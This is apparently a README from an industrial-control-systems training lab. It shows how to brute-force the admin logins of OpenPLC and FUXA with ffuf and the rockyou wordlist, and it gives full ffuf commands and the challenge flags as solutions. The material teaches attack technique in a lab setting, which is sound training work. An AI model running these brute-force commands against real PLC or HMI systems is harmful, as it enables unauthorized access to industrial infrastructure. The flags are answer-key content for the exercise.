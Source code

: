 # Password attack

## Password attack on OpenPLC
In this example we try to get the password of the openplc login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).  

### Check response
OpenPLC is running at [http://<DEVICE_IP>:8080/login](http://<DEVICE_IP>:8080/login]).
After entering wrong credentials, this page is displayed:  
![bad credentials](doc/wrong_login.png)

When the browsers built in developer console is open during the request, we can see the what is sent and received when we try to login. E.g. in chrome with F12  
![login request](doc/login_request.png)

And the sent payload  
![login payload](doc/login_payload.png)

### Download
```sh
mkdir ~/ffuf
cd ~/ffuf
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
```

### Get a wordlist
```sh
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### ffuf
Start fuff with:
- `-w ./rockyou.txt` the downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"` information from the login request
- `-d "username=admin&password=FUZZ"` information form the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login` the request
- `-fs 4561` the length of the response on wrong login
```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info start it without parameters
```sh
./ffuf
```

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is part of the user information.
<details>
  <summary>Solution</summary>
  
  ##
  Flag: CybICS(0penPLC)
  ![Flag OpenPLC Password](doc/flag.png)
</details>

## Password attack on FUXA
Use the previous knowledge to fuzz the admin login of FUXA.
FUXA is running at [http://<DEVICE_IP>:1881](http://<DEVICE_IP>:1881). 

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag appears after successful login on the HMI.
<details>

```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "FUZZ"}' -raw -u http://$DEVICE_IP:1881/api/signin -fr "error"
```


  Flag: CybICS(FU##A)
  ![Flag FUXA Password](doc/flag2.png)
</details>